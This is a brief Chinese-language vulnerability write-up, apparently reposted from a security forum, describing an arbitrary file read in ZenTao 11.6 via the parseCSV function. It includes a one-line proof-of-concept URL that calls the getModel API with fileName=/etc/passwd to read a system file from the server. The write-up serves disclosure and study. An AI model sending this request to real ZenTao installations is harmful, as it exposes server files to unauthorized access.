 # 禅道 11.6 任意文件读取

> 原文：[https://www.zhihuifly.com/t/topic/3363](https://www.zhihuifly.com/t/topic/3363)

# 禅道 11.6 任意文件读取

## 一、漏洞简介

禅道项目管理软件是一款国产的，基于LGPL协议，开源免费的项目管理软件，它集产品管理、项目管理、测试管理于一体，同时还包含了事务管理、组织管理等诸多功能，是中小型企业项目管理的首选，基于自主的PHP开发框架──ZenTaoPHP而成，第三方开发者或企业可非常方便的开发插件或者进行定制。
厂商官网：https://www.zentao.net/
而此次发现的漏洞正是ZenTaoPHP框架中的通用代码所造成的的，因此禅道几乎所有的项目都受此漏洞影响

## 二、漏洞影响

禅道 11.6

禅道开源版 9版本

## 三、复现过程

漏洞代码位于module/file/model.php中的parseCSV函数

![image](img/daa21c094fde628f660df508f07073d0.png)

这里通过上面的思路同样可以对fileName进行赋值，最终返回读取的文件数据
漏洞poc为：

```
http://www.0-sec.org/zentaopms_11.6/www/api-getModel-file-parseCSV-fileName=/etc/passwd 
```

![image](img/74df1896af46127536969908bea5a09c.png)